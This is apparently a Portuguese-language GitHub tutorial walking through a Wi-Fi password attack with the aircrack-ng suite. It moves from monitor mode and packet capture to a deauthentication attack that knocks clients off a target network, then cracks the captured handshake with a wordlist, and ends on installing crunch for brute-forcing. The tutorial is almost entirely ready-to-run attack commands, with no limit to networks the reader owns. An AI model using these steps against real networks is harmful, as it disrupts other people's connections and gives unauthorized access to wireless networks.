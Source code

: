 ```
sudo apt-get install -y aircrack-ng
```
### Escolhendo a interface de monitoramento
Antes de começar o ataque em si, precisamos descobrir qual interface de rede utilizaremos para monitorar os pacotes em circulação:
```
iwconfig
```
### Airmon
Depois, utilizando o `airmon-ng` podemos ergue-la em modo monitoramento:
```
airmon-ng check kill && sudo airmon-ng start <INTERFACE>
```
_Vale ressaltar que assim que realizarmos esse passo, seu acesso à internet será cortado. Mas não se desespere! Se você seguir esse tutorial até o final,_ reestabeleceremos sua conexão. Além disso, o nome de sua interface será acrescido do sufixo 'mon'.
### Airodump
Agora, podemos listar todos os wifis/pontos de acesso por meio dos pacotes que chegam até a interface:
```
sudo airodump-ng <INTERFACE>
```

Assim que o wifi que se deseja crackear aparecer na lista, podemos dar `Ctrl+C` para parar o airodump e salvar seu `BSSID` e `CHANNEL`. Em seguida, podemos inspecionar com mais precisão todos os pacotes que circulam por ele com:

```
sudo airodump-ng -w <OUTFILE> -c <CHANNEL> --bssid <BSSID> <INTERFACE>
```
### Aireplay
Simultaneamente em outro terminal, podemos executar um deauthentication attack em alguns dos clientes da rede dado seu `STATION_NUMBER`:
```
sudo aireplay-ng --deauth <TIMES> -a <BSSID> -c <CLIENT_STATION_NUMEBR> <INTERFACE>
```
### Aircrack
Por fim, agora que temos os handshakes, podemos usar o `aircrack-ng` para conseguir a senha de acesso utilizando alguma `WORDLIST`:
```
aircrack-ng <HANDSHAKE_FILE> -w <WORDLIST> -l <OUTFILE>
```
### Crunch
Caso não queira usar um dicionário, podemos brutar todas as possibilidades de senhas utilizando o `crunch`
Primeiramente, para instalá-lo:
```
sudo apt-get install crunch
```
